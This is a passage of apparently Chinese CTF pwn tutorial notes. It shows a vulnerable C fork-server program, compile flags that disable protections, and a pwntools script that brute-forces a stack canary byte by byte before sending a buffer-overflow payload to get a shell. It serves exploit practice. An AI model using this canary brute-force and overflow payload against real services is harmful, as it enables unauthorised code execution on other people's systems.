```c
			puts("sucess");
			break;
		} else {
			wait(0);
		}
	}
	printf("Failure!");
	return 0;
}
// gcc -m32 -Wno-stack-protector -no-pie -fno-pie -z execstack $1.c -o $1
```

```python
from pwn import *

# context.log_level = 'debug'
context(os='linux', arch='i386')

io = process('./fork')

io.recvuntil(b'fork?\n')
canary = b'\x00'
for j in range(3):
    for i in range(0x100):
        print(j, i, sep=' ')
        io.send(b'a'*100 + canary + p8(i))  # chr(i).encode()
        a = io.recvuntil(b'fork?\n')
        if b'sucess' in a:
            # print('aaaa')
            canary += p8(i)  # chr(i).encode()
            print(i, canary)
            break
        print(canary)
        if i == 255:
            exit()
print(canary)
payload = b'a'*100
payload += canary
payload += b'a'*12
payload += p32(0x804924e) + p32(0x804B350) + p32(0x804b350)

io.sendline(payload)
io.interactive()
# socat tcp-listen:10002,reuseaddr,fork EXEC:./fork2.fork,pty,raw,echo=0
```

**练习 ： SWCTF pwn 花活**



### 		2.printf 函数泄露

#### 				1) 覆盖"\0"泄露

